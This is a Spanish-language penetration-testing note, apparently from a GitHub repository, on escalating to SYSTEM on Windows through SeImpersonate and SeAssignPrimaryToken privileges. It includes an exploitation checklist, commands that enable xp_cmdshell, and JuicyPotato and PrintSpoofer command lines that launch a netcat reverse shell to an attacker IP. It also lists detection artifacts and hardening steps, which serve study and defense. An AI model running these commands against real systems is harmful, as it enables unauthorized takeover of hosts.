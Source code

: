 # SeImpersonate y SeAssignPrimaryToken

## Introducción

El sistema Windows representa la identidad de cuentas y procesos mediante **tokens de acceso**. Dos privilegios críticos relacionados con la reutilización o asignación de tokens son **SeImpersonatePrivilege** y **SeAssignPrimaryTokenPrivilege**. Ambos permiten a procesos con los derechos adecuados actuar con el contexto de otros usuarios y, si se abusan en entornos no endurecidos, posibilitan escaladas locales a NT AUTHORITY/SYSTEM.

---

## Definición / Concepto

* **SeImpersonatePrivilege**: "Impersonate a client after authentication" — permite a un proceso (o hilo) **impersonar** a un cliente autenticado (usar su token de impersonación) para acceder a recursos en nombre de ese cliente. Un ejemplo del uso de este token es mediante la función [`CreateProcessWithTokenW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw).
`Nota`: `CreateProcessWithTokenW` permite lanzar un proceso con la identidad de un token dado. Requiere que el llamador tenga SeImpersonatePrivilege.
* **SeAssignPrimaryTokenPrivilege**: "Replace a process level token" — permite crear o asignar **tokens primarios** a procesos (por ejemplo, usar CreateProcessAsUser) y es más restrictivo.

Diferencia práctica:

* *Impersonation token* suele estar asociado a un thread y se usa para actuar temporalmente como el cliente.
* *Primary token* se asigna a un proceso entero y permite crear procesos enteros bajo esa identidad.

---

## Contexto de abuso (por qué es relevante)

* Servicios que atienden conexiones de cliente (IIS, SQL Server, servicios RPC/COM) a menudo necesitan impersonar al usuario que realiza la petición para acceder a recursos (shares, bases de datos, otros servicios). Por ello, las cuentas de estos servicios a veces tienen SeImpersonate habilitado.
* Si obtenés ejecución en el contexto de uno de esos servicios (por ejemplo, nt service/mssql$..., IIS APPPOOL/defaultapppool), la presencia de SeImpersonate o SeAssignPrimaryToken puede permitir una escalada rápida a SYSTEM.

---

## Ejemplo de explotación (JuicyPotato / PrintSpoofer — flujo resumido)

1. Obtener RCE en contexto de un servicio (ej.: xp_cmdshell en SQL, web shell en IIS, Jenkins RCE).
2. Confirmar la cuenta del proceso: whoami (ej. nt service/mssql$sqlexpress01).
3. Comprobar privilegios: whoami /priv → comprobar SeImpersonatePrivilege o SeAssignPrimaryTokenPrivilege.
4. Subir herramienta de explotación (JuicyPotato.exe, PrintSpoofer.exe, nc.exe).
5. Ejecutar herramienta apuntando al CLSID/puerto COM apropiado y al payload (reverse shell).
6. Si tiene éxito, obtendrás un shell como NT AUTHORITY/SYSTEM.

---

## Comandos y ejemplos prácticos

* Comprobar identidad y privilegios:

  ```cmd
  whoami
  whoami /priv
  ```

* Habilitar xp_cmdshell (ejemplo con Impacket mssqlclient):

  ```sql
  EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
  ```

* Ejecutar JuicyPotato (ejemplo):

  ```cmd
  JuicyPotato.exe -l 53375 -p C:/Windows/System32/cmd.exe -a "/c C:/tools/nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
  ```

* Ejecutar PrintSpoofer (ejemplo):

  ```cmd
  PrintSpoofer.exe -c "C:/tools/nc.exe 10.10.14.3 8443 -e cmd.exe"
  ```

> Observación: JuicyPotato no funciona en builds recientes de Windows; en esos casos probar PrintSpoofer, RoguePotato u otras variantes.

---

## Detección (artefactos y logs)

* **Windows Security Event Log**:

  * 4624 / 4634 (logons), 4688 (creación de procesos) — buscar procesos inusuales creados por servicios.
* **Sysmon**:

  * EventID 1 (ProcessCreate): procesos hijos anómalos de servicios (ej. w3wp.exe -> cmd.exe).
  * EventID 10 (ProcessAccess): accesos entre procesos que indican token stealing.
  * EventID 3 (NetworkConnect): conexiones reversas (nc.exe).
* **EDR**: llamadas a APIs sensibles (CreateProcessWithTokenW, CreateProcessAsUser) y creación de procesos con tokens distintos deben alertar.
* Revisar named pipes y endpoints COM/RPC que estén siendo escuchados por procesos no habituales.

---

## Mitigaciones y hardening

* **Eliminar los privilegios** SeImpersonatePrivilege y SeAssignPrimaryTokenPrivilege de cuentas que no los necesiten (Local Security Policy -> User Rights Assignment o GPO).
* Ejecutar servicios con cuentas con menor privilegio (service accounts con permisos mínimos).
* Separar responsabilidades: no usar la misma cuenta para múltiples servicios críticos.
* Habilitar PPL / LSASS protections y tecnologías como Credential Guard cuando aplique.
* Implementar Sysmon + EDR con reglas que detecten procesos creados desde servicios y uso de APIs de token.
* Application whitelisting y bloqueo de ejecución de binarios no autorizados en servidores críticos.

---

## Checklist

* [ ] Obtener RCE en contexto de servicio.
* [ ] whoami y whoami /priv.
* [ ] Subir herramienta de explotación compatible con la versión de Windows objetivo.
* [ ] Intentar JuicyPotato → si falla, probar PrintSpoofer / RoguePotato / alternativas.
* [ ] Si obtienes SYSTEM, documentar evidencia y limpiar artefactos en entorno de laboratorio.

---

## Notas finales y recursos

* JuicyPotato, PrintSpoofer y RoguePotato son ejemplos públicos; su efectividad depende de la build de Windows.
* Consulta documentación técnica sobre tokens y las APIs CreateProcessWithTokenW, CreateProcessAsUser para profundizar.
* Siempre trabajar en entornos controlados y con autorización.

---

*Fin.*
